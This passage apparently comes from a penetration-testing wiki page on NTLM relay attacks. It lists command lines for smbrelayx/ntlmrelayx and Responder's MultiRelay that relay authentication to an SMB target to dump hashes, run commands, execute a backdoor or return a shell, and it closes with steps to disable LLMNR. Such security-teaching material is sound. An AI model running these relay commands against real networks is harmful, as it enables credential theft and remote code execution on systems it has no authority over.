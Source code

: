### smbrelayx

```bash
python3 smbrelayx.py -t smb://<ip_to_attack> -smb2support --no-http-server --no-wcf-server
# By default it will just dump hashes
# To execute a command use: -c "ipconfig"
# To execute a backdoor use: -e "/path/to/backdoor

# Attack through socks proxy
proxychains python3 ntlmrelayx.py -t smb://<ip_to_attack> -smb2support --no-http-server --no-wcf-server
```

### MultyRelay

If you want to use **MultiRelay**, go to _**/usr/share/responder/tools**_ and execute MultiRelay (`-t <IP target> -u <User>`):

```bash
python MultiRelay.py -t <IP target> -u ALL # If "ALL" then all users are relayed
# By default a shell is returned
python MultiRelay.py -t <IP target> -u ALL -c whoami #-c to execute command
python MultiRelay.py -t <IP target> -u ALL -d #-d to dump hashes

# Use proxychains if you need to route the traffic to reach the attacked ip
```

![](<../../.gitbook/assets/image (209).png>)

### Force NTLM Logins

In Windows you **may be able to force some privileged accounts to authenticate to arbitrary machines**. Read the following page to learn how:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## Solution

### Disabling LLMNR

To disable LLMNR in your domain for DNS clients, open gpedit.msc.\
Navigate to Computer Configuration->Administrative Templates->Network->DNS client.\
Locate the option “Turn off multicast name resolution” and click “policy setting”:

![](../../.gitbook/assets/1.jpg)

Once the new window opens, enable this option, press Apply and click OK:

![](../../.gitbook/assets/2.jpg)
